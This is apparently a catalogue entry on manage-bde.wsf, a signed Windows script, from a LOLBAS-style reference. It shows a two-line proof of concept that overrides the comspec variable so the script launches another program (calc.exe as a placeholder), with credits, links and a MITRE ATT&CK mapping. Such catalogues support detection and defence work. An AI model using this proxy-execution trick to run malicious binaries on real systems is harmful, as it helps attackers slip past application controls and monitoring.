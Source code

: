 ## Manage-bde.wsf

* Functions: Execute

```
set comspec=C:\windows\system32\calc.exe   
cscript C:\windows\system32\manage-bde.wsf    
```

Acknowledgements:
* Jimmy - @bophops

Code sample:
* 

Resources:
* https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
* https://twitter.com/bohops/status/980659399495741441

Full path:
```
c:\windows\system32\manage-bde.wsf
```

Notes:



 
MITRE ATT&CK:
* [Scripting](https://attack.mitre.org/wiki/Technique/T1064)
